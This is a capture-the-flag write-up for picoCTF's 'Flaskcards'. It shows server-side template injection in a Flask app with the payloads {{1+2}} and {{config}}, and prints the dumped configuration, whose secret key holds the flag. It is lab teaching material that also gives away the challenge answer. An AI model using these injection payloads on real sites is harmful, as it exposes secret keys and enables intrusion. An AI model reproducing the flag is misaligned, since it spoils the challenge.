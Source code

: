 > Flaskcards - Points: 350 - (Solves: 216)
> We found this fishy website for flashcards that we think may be sending secrets. Could you take a look?

We start by creating a user and going to the `create card` page.

From there we test simple template injection `{{1+2}}` which returns 3 on the list page meaning there is template injection.

Since it's named "Flask" my first guess is to try and print config variables like so `{{config}}`

This returns a lot of config variables with the flag being one of them:
```
Question:<Config {'SQLALCHEMY_BINDS': None, 'USE_X_SENDFILE': False, 'SESSION_REFRESH_EACH_REQUEST': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'BOOTSTRAP_USE_MINIFIED': True, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSON_SORT_KEYS': True, 'SQLALCHEMY_MAX_OVERFLOW': None, 'TRAP_HTTP_EXCEPTIONS': False, 'TESTING': False, 'SQLALCHEMY_NATIVE_UNICODE': None, 'DEBUG': False, 'PROPAGATE_EXCEPTIONS': None,
'MAX_CONTENT_LENGTH': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'JSON_AS_ASCII': True, 'JSONIFY_MIMETYPE': 'application/json', 'ENV': 'production', 'PREFERRED_URL_SCHEME': 'http', 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'SESSION_COOKIE_SECURE': False, 'TRAP_BAD_REQUEST_ERRORS': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'TEMPLATES_AUTO_RELOAD': None, 'SQLALCHEMY_POOL_SIZE': None, 'SESSION_COOKIE_SAMESITE': None,
'SQLALCHEMY_ECHO': False, 'SESSION_COOKIE_NAME': 'session', 'BOOTSTRAP_CDN_FORCE_SSL': False, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, 'SESSION_COOKIE_HTTPONLY': True, 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_e8a55760}', 'SESSION_COOKIE_PATH': None, 'MAX_COOKIE_SIZE': 4093, 'APPLICATION_ROOT': '/', 'BOOTSTRAP_SERVE_LOCAL': False, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SESSION_COOKIE_DOMAIN': False, 'SERVER_NAME': None,
'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_RECYCLE': None}>
```

Flag: `picoCTF{secret_keys_to_the_kingdom_e8a55760}`
